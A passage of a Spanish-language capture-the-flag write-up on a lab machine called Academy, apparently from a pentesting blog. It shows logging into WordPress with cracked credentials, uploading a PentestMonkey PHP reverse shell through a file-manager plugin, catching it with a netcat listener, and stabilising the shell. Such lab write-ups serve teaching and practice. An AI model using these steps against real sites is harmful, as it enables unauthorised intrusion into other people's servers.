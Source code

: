 ```css
[!] Valid Combinations Found:
 | Username: dylan, Password: password1
```

ya con el usuario y la contraseña es momento de loguearse en el panel de administración de wordpress, luego de iniciar sesión veo que tengo un plugin para subir archivos, voy aprovecharlo para subir un payload

El payload lo voy a crear desde la pagina [revshells](https://www.revshells.com/) con PHP PentestMonkey, guardo el archivo con el nombre pwned.php

![003Academy.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/thehackerslabs/Academy/003Academy.png)

# 2- Intrusión

Procedo a subir el payload con la reversehell en el plugin de wordpress Bit File Manager

![004Academy.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/thehackerslabs/Academy/004Academy.png)

me pongo a la escucha en mi maquina atacante `nc -nlvp 8080` y procedo a ejecutar el payload en la url ingreso `http://academy.thl/wordpress/pwned.php` me devuelve una conexión, ejecuto el comando `whoami` y me devuelve el usuario `www-data` se pudo realizar la intrusión al equipo

![005Academy.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/thehackerslabs/Academy/005Academy.png)

# 3- Tratamiento de la tty

Ya obtuvimos la intrusión pero la consola que nos devuelve puede ser un poco inestable y al presionar `control + c` podemos perder la conexión para ellos voy hacer un tratamiento de la tty con los siguientes comandos

```bash
script /dev/null -c bash
```

presionar ctrl + z

```bash
stty raw -echo; fg
```

luego ejecutar

```bash
reset xterm
```

nota es posible que no muestre en pantalla lo que estamos tecleando

```bash
export TERM=xterm
```

```bash
export SHELL=bash
```
